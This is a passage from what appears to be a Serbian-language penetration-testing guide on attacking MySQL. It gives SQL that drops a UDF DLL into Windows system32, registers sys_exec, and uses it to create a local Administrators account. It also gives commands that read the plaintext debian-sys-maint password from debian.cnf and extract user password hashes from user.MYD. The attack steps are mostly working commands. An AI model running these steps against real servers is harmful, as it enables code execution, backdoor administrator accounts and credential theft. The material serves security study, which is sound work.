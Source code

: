 ```sql
# CHech the linux comments for more indications
USE mysql;
CREATE TABLE npn(line blob);
INSERT INTO npn values(load_file('C://temp//lib_mysqludf_sys.dll'));
show variables like '%plugin%';
SELECT * FROM mysql.npn INTO DUMPFILE 'c://windows//system32//lib_mysqludf_sys_32.dll';
CREATE FUNCTION sys_exec RETURNS integer SONAME 'lib_mysqludf_sys_32.dll';
SELECT sys_exec("net user npn npn12345678 /add");
SELECT sys_exec("net localgroup Administrators npn /add");
```

#### Izvlačenje MySQL akreditacija iz datoteka

Unutar _/etc/mysql/debian.cnf_ možete pronaći **lozinku u obliku običnog teksta** za korisnika **debian-sys-maint**.

```bash
cat /etc/mysql/debian.cnf
```

Možete **koristiti ove podatke za prijavu u MySQL bazu podataka**.

Unutar datoteke: _/var/lib/mysql/mysql/user.MYD_ možete pronaći **sve hešove MySQL korisnika** (one koje možete izvući iz mysql.user unutar baze podataka).

Možete ih izvući koristeći:

```bash
grep -oaE "[-_\.\*a-Z0-9]{3,}" /var/lib/mysql/mysql/user.MYD | grep -v "mysql_native_password"
```

#### Omogućavanje beleženja

Možete omogućiti beleženje MySQL upita unutar `/etc/mysql/my.cnf` datoteke uklanjanjem komentara sa sledećih linija:

![](<../.gitbook/assets/image (277).png>)
